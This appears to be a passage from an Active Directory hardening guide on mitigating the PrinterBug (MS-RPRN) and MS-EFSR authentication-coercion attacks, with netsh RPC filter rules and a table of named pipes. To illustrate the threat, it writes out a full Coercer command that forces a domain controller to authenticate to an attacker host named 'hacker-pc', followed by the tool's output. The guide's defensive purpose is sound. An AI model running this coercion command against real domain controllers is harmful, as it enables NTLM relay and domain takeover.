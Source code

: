The primary solution to this vulnerability, commonly known as PrinterBug,
is to disable the `Print Spooler` service on domain controllers.
As an alternative, the following sequence of `netsh.exe` commands will block MS-RPRN connections over named pipes:

```txt
rpc filter
add rule layer=um actiontype=block filterkey=7966512a-f2f4-4cb1-812d-d967ab83d28a
add condition field=protocol matchtype=equal data=ncacn_np
add condition field=if_uuid matchtype=equal data=12345678-1234-ABCD-EF00-0123456789AB
add filter
```

> [!NOTE]
> In a future version of Windows Server, the MS-RPRN protocol will exclusively
be [moved to a standalone TCP port](https://learn.microsoft.com/en-us/troubleshoot/windows-client/printing/windows-11-rpc-connection-updates-for-print)
by default.

#### \[MS-EFSR\]: Encrypting File System Remote (EFSRPC) Protocol

The [\[MS-EFSR\]: Encrypting File System Remote (EFSRPC) Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)
is [available over multiple named pipes](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/1baaad2f-7a84-4238-b113-f32827a39cd2):

| Named Pipe     | RPC Interface UUID                   |
|----------------|--------------------------------------|
| \\PIPE\\efsrpc | df1941c5-fe89-4e79-bf10-463657acf44d |
| \\PIPE\\lsarpc | c681d488-d850-11d0-8c52-00c04fd90f7e |

This protocol is yet another popular target for initiating NTLM relay attacks:

```shell
coercer coerce --target-ip dc01 --listener-ip hacker-pc --username john --password 'Pa$$w0rd' --domain contoso.com --filter-transport msrpc --filter-pipe lsarpc --filter-method EfsRpcAddUsersToFileEx --always-continue
```

```txt
       ______
      / ____/___  ___  _____________  _____
     / /   / __ \/ _ \/ ___/ ___/ _ \/ ___/
    / /___/ /_/ /  __/ /  / /__/  __/ /      v2.4.3
    \____/\____/\___/_/   \___/\___/_/       by @podalirius_

[info] Starting coerce mode
[info] Scanning target dc01
[+] SMB named pipe '\PIPE\lsarpc' is accessible!
   [+] Successful bind to interface (c681d488-d850-11d0-8c52-00c04fd90f7e, 1.0)!
      [!] (RPC_S_ACCESS_DENIED) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\10.213.0.100\5jPfJ0a3\file.txt\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\10.213.0.100\OMEqbIHD\\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\10.213.0.100\sRuG4G51\x00')
      [!] (RPC_S_ACCESS_DENIED) MS-EFSR──>EfsRpcAddUsersToFileEx(FileName='\\10.213.0.100@80/ZVi\share\file.txt\x00')
[+] All done! Bye Bye!
```


[Admin Model]: https://petri.com/use-microsofts-active-directory-tier-administrative-model/
[System Center Configuration Manager]: https://learn.microsoft.com/en-us/mem/configmgr/core/understand/introduction
[System Center Operations Manager]: https://learn.microsoft.com/en-us/system-center/scom/get-started
[Network Location Awareness]: https://learn.microsoft.com/en-us/windows/win32/winsock/network-location-awareness-service-provider-nla--2
[Privileged Access Workstation]: https://learn.microsoft.com/en-us/security/privileged-access-workstations/privileged-access-devices
[Attack Surface Reduction]: https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide
[Remote Procedure Call]: https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page
[Active Directory Domain Services]: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/get-started/virtual-dc/active-directory-domain-services-overview
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Remote Server Administration Tools]: https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/remote-server-administration-tools
[Link-Local Multicast Name Resolution]: https://www.rfc-editor.org/rfc/rfc4795.html
[MSS (Legacy)]: https://techcommunity.microsoft.com/t5/microsoft-security-baselines/the-mss-settings/ba-p/701055
[MS Security Guide]: https://learn.microsoft.com/en-us/deployoffice/security/security-baseline#ms-security-guide-administrative-template